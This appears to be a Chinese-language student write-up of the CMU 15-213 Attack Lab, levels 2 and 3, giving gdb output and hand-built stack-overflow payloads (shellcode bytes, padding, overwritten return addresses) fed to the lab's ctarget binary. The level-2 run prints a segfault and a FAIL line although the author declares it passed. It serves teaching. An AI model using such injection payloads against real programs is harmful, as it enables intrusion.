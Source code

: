 通过这样的命令我们可以知道汇编指令 `mov    $0x59b997fa,%rdi` 和 `ret` 对应的字节序列，且正好为 8 字节

接着使用 gdb 调试知道我们在 getbuf 函数中输入数据 存储的首地址为 `0x5561dc78`

加上 touch2 的地址

```
pwndbg> p touch2
$1 = {void (unsigned int)} 0x4017ec <touch2>
```

所以我们构造出这样的字节序列写入 expolit.txt 中

```
48 c7 c7 fa 97 b9 59 /* mov    $0x59b997fa,%rdi */
c3 /* ret */
61 61 61 61 61 61 61 61 /* padding */
61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 /* padding */
78 dc 61 55 00 00 00 00 /* address of shellcode */
ec 17 40 00 00 00 00 00 /* address of touch2 */
```

使用命令

```
❯ cat expolit.txt | ./hex2raw | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
Ouch!: You caused a segmentation fault!
Better luck next time
FAIL: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:FAIL:0xffffffff:ctarget:0:48 C7 C7 FA 97 B9 59 C3 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 78 DC 61 55 00 00 00 00 EC 17 40 00 00 00 00 00
```

**phase2 pass**

## level3

>Your task is to get CTARGET to execute the code for touch3 rather than returning to test. You must make it appear to touch3 as if you have passed a string representation of your cookie as its argument.

该 pahse 使用了 hexmatch 函数去比较 cookie 与 我们传入的参数，我们传入的参数是一个指针，所以需要比较的 cookie 的值我们需要预先写入某段内存区域中，可将其写入返回地址之后，这样数据在栈上便于我们通过偏移计算地址

构造出这样的字节序列写入 expolit.txt 中

```
48 c7 c7 b8 dc 61 55 /* mov    $0x5561dcb8,%rdi */
c3 /* ret */
c3 /* ret */
00 00 00 00 00 00 00 /* padding */
61 61 61 61 61 61 61 61 /* padding */
61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 /* padding */
78 dc 61 55 00 00 00 00 /* address of shellcode */
80 dc 61 55 00 00 00 00 /* second ret */
fa 18 40 00 00 00 00 00 /* address of touch3 */
35 39 62 39 39 37 66 61 /* strings of cookie*/
```
